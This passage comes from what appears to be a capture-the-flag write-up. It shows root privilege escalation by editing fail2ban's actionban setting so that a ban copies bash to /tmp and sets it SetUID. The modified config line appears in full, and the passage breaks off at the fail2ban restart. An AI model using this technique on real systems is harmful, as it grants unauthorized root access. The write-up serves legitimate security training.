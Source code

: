 Looking at `/etc/fail2ban/action.d/iptable-multiport.conf`, the
important line is the `actionban`, which runs each time an IP hits the
defined threshold:



    ...[snip]...
    # Option:  actionban
    # Notes.:  command executed when banning an IP. Take care that the
    #          command is executed with Fail2Ban user rights.
    # Tags:    See jail.conf(5) man page
    # Values:  CMD
    #
    actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
    ...[snip]...



### Abusing fail2ban

At this point, I have all I need to get execution as root. I'll start by
changing the `actionban` in
`/etc/fail2ban/action.d/iptables-multipath.conf` to make a copy of
`bash` and set it SetUID:



    # Option:  actionban
    # Notes.:  command executed when banning an IP. Take care that the
    #          command is executed with Fail2Ban user rights.
    # Tags:    See jail.conf(5) man page
    # Values:  CMD
    #
    actionban = cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf



Now I'll restart `fail2ban`:
